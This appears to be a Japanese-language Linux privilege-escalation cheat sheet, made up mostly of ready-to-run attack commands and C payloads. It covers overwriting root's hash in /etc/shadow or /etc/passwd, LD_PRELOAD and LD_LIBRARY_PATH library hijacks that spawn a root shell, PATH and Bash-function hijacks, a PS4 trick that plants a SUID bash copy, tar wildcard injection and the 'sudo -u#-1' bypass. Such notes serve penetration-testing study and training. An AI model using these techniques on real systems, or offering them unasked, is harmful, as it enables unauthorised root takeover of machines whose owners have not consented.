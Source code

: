 # Linux Privilege Escalation

## 実行フロー
1. コマンドの確認
2. ファイルの確認
3. sudoの確認

## 機密ファイルのパーミッション確認
### /etc/shadow
通常rootユーザーのみ読み取り可能。しかしもし書き込み可能な場合、新しいパスワードハッシュを生成し、rootユーザーのハッシュを上書きする。

新しいパスワードハッシュの生成
```
mkpasswd -m sha-512 [NEW PASSWORD]
```

### /etc/passwd
通常全てのユーザーが読み取り可能だが、書き込みはrootユーザーのみ可能。しかしもし書き込み可能な場合、rootユーザーのパスワードを上書きする。

新しいパスワードの生成
```
openssl passwd [NEW PASSWORD]
```

## ユーザー環境から継承された環境変数の確認
### env_keep オプションの内容を確認する。
```
sudo -l | grep -iF env_keep
```

#### LD_PRELOAD が存在する場合
1. C言語のプログラムを共有ライブラリ(soファイル)にコンパイル
```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
```

preload.c
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

2. コマンドの実行
```
sudo LD_PRELOAD=/tmp/preload.so [COMMAND]
```

##### Memo
LD_PRELOAD : プログラム（コマンド）実行の際に最初にロードする共有オブジェクトを指定する環境変数。  
COMMAND : sudoで実行できるコマンドを指定する。

#### LD_LIBRARY_PATH が存在する場合
1. プログラムが依存関係にある共有ライブラリを調べる。
```
ldd [COMMAND]
```

2. C言語のプログラムを共有ライブラリ(soファイル)にコンパイル
```
gcc -o /tmp/libcrypt.so.1 -shared -fPIC library_path.c
```

library_path.c
```
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

3. コマンドの実行
```
sudo LD_LIBRARY_PATH=/tmp [COMMAND]
```

##### Memo
LD_LIBRARY_PATH : 最初に共有オブジェクトを検索しに行くディレクトリを指定する環境変数。  
COMMAND : sudoで実行できるコマンド。

## コマンドの確認
root権限で実行できるコマンドの確認
```
sudo -l
```

## ファイルの確認
### 怪しいスクリプトの調査
1. LinEnumを実行
2. CronTabに設定されているスクリプトの確認（相対パス or 絶対パス）
3. SUID / SGIDファイルの確認
4. その他ファイルの確認（一般ユーザーのホームディレクトリなど。LinEnumのInteresting Filesセクションも参考）

### 内部コマンドの調査
・シェルスクリプトの場合
```
cat [FILE]
```

・バイナリファイルの場合
1. 読み取り可能な文字列を抽出し、内部で実行されているコマンドを確認。
```
strings [FILE]
```

2. システムコール単位での処理の流れから、実行エラーになっているライブラリやファイルなどを確認。
```
strace [FILE]
strace [FILE] 2>&1 | grep -iE "open|access|no such file"
```

### 権限昇格の実行（コマンドの指定方法ごとに）
・相対パスの場合  
tmpディレクトリに同名のスクリプトを作成。
```
echo '/bin/bash -p' | tee /tmp/[FILE]; chmod +x /tmp/[FILE]
export PATH=/tmp:$PATH
```

・絶対パスの場合  
1. スクリプトが配置されているディレクトリに書き込み権限があるか確認
```
ls -la | grep -iF [DIRECTORY]
```

2. スクリプト自体に書き込み権限があるか確認
```
ls -la [FILE]
```

3. Bashのバージョンを確認（デフォルトシェルがBashの場合）
```
/bin/bash --version
```

・Bash < ver4.2-048  
絶対パスの名前の関数を定義する。
```
function [ABSOLUTE PATH] { /bin/bash -p; }
export -f [ABSOLUTE PATH]
```

・Bash < ver4.4  
suid-env2をデバッグモードで実行する。Bashをデバッグモードで実行する場合、環境変数PS4が利用される。PS4には、/bin/bashのスクリプトをtmpディレクトリにコピーし、SUIDを付与するコマンドをセットする。
```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
/tmp/rootbash -p
```

4. ワイルドカードの使用を確認  
tarコマンドなどの引数として*を使用し、かつ実行先のディレクトリに書き込み権限がある場合。touchコマンドの引数には絶対パスを指定しないとエラーになる。
```
touch [FILE PATH]--checkpoint=1
touch [FILE PATH]--checkpoint-action=exec=[PAYLOAD]
```

## sudoの確認
```
sudo -V
```

・sudo =< ver1.8.28  
他のユーザーとしてコマンドを実行できる権限（ALL）が与えられている必要あり。
```
sudo -u#-1 /bin/bash
sudo -u#4294967295 /bin/bash
```

